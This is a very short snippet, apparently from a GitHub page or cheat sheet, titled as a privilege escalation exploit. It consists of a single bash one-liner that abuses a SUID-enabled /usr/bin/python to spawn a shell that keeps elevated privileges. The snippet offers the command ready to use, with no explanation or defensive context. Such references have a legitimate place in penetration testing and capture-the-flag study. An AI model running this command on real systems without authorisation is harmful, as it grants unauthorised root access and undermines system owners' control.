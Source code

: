 ### Privilege Escalation Exploit /usr/bin/python with SUID

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh","sh","-p")'
```